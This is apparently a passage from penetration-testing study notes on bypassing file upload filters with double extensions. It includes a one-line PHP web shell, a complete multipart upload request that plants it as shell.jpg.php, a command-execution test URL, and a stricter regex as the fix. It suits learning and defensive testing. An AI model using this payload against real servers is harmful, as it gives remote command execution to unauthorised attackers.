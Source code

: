 
## Double Extensions

> **🔄 Classic Bypass:** Add allowed extension while keeping malicious extension

### Double Extension Technique

**Concept:** If `.jpg` is allowed, use `shell.jpg.php` to:
1. **Pass whitelist test** - contains `.jpg` extension
2. **Execute as PHP** - ends with `.php` extension

**Implementation:**
```bash
# Original filename: shell.php
# Bypass filename: shell.jpg.php
# Content: <?php system($_REQUEST['cmd']); ?>
```

**Burp Suite Request:**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

------boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.jpg.php"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>
------boundary--
```

**Testing Execution:**
```bash
# Access: http://SERVER_IP:PORT/profile_images/shell.jpg.php?cmd=id
# Expected: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Strict Regex Patterns

**More Secure Implementation:**
```php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) {
    // Uses $ at the end to match only final extension
}
```

**This pattern blocks:** `shell.jpg.php` (doesn't end with image extension)

---

## Reverse Double Extension

> **🔄 Server Misconfiguration:** Exploit web server configuration weaknesses

### Web Server Configuration Vulnerability
